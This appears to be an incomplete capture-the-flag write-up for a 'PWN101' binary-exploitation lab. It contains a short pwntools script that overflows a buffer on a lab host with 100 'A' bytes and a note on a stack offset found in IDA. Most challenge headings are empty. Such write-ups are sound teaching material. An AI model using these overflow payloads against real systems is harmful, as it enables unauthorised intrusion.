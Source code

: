 # PWN101

### Challenge 1 - pwn101
The goal of this task was simply to overflow the buffer, I found that 100 characters were more than enough to do that, so I developed the following code:

    from pwn import *
    
    ip = "10.10.114.216"
    port = 9001
    p = remote(ip,port)
    
    offset = 100
    payload = b"A"*offset
    
    p.sendline(payload)
    
    p.interactive()
![image](https://github.com/user-attachments/assets/2e84d354-224c-4fa8-b4b9-86305ffa26e5)<br />

### Challenge 2 - pwn101
Let's disassemble the binary in IDA:<br />
![image](https://github.com/user-attachments/assets/29a5aca3-d0a8-45cb-b047-ef27bc06936c)<br />
There's a buffer stored at rbp+var_70, and `var_70` is at -70h, which is 112 bytes from the beginning of the stack


### Challenge 3 - pwn101

### Challenge 4 - pwn101

### Challenge 5 - pwn101

### Challenge 6 - pwn101

### Challenge 7 - pwn101

### Challenge 8 - pwn101

### Challenge 8 - pwn101

### Challenge 10 - pwn101
